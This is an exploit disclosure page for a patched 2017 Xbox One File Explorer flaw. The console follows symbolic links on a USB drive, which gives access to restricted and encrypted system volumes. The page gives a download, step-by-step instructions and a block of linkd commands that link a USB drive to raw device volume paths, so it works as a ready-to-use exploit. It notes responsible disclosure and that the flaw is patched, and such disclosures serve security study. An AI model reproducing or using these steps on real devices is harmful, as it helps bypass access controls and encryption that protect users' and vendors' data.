 # File Explorer - Symbolic links vulnerability

## Metadata
|                             |                                                     |
|-----------------------------|-----------------------------------------------------|
|Release date                 |                                          02.06.2017 |
|Author                       |                                            xenomega |
|Classification               |                                         File Access |
|Patched                      |                                                 yes |
|Patch date                   |                                          05.05.2017 |
|First patched system version | 10.0.15063.2022 (RS2_RELEASE_XBOX_1704.170501-1052) |
|Source                       |                https://github.com/Xenomega/xsymlink |
|Download                     |                      [Download](../files/xsymlink.zip) |

## Info
Access restricted/encrypted volumes using the Xbox File Explorer.

- Patched as of 5/5/2017: 10.0.15063.2022 (RS2_RELEASE_XBOX_1704.170501-1052).  Thus in accordance with responsible disclosure.
- The Xbox One File Explorer does not check if a path is a symbolic link elsewhere, allowing an attacker to browse/read/write to mounted volumes which are normally restricted.
- This includes any encrypted virtual harddisk partitions (XVD files) which the console mounts for content such as gamesaves, etc.

## Prerequisites
- Download Windows Server 2003 Resource Kit Tools, from which you'll need the "linkd" utility, as the program relies on it to create links, since mklink does not link to paths that do not exists, and the paths we intend to link to are likely non-existent on your computer.

## Instructions
 - Change the drive letter to your USB drive letter in Program.cs  
 - Run it  
 - Plug it into Xbox, use File Browser to browse through the symlinks, which will link to other parts of the system.

## Manual instructions

The following snippet assume that your usb flash drive is mounted to `E:\` on your computer that's executing linkd.

```
mkdir E:\symlinks
linkd.exe E:\symlinks\Volume0\ \\?\GLOBALROOT\Device\HarddiskVolume0\
linkd.exe E:\symlinks\Volume1\ \\?\GLOBALROOT\Device\HarddiskVolume1\
linkd.exe E:\symlinks\Volume2\ \\?\GLOBALROOT\Device\HarddiskVolume2\
linkd.exe E:\symlinks\Volume3\ \\?\GLOBALROOT\Device\HarddiskVolume3\
linkd.exe E:\symlinks\Volume4\ \\?\GLOBALROOT\Device\HarddiskVolume4\
linkd.exe E:\symlinks\Volume5\ \\?\GLOBALROOT\Device\HarddiskVolume5\
... etc ...
```

**NOTE**: You might be able to use [`junction.exe` from Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/junction) too!
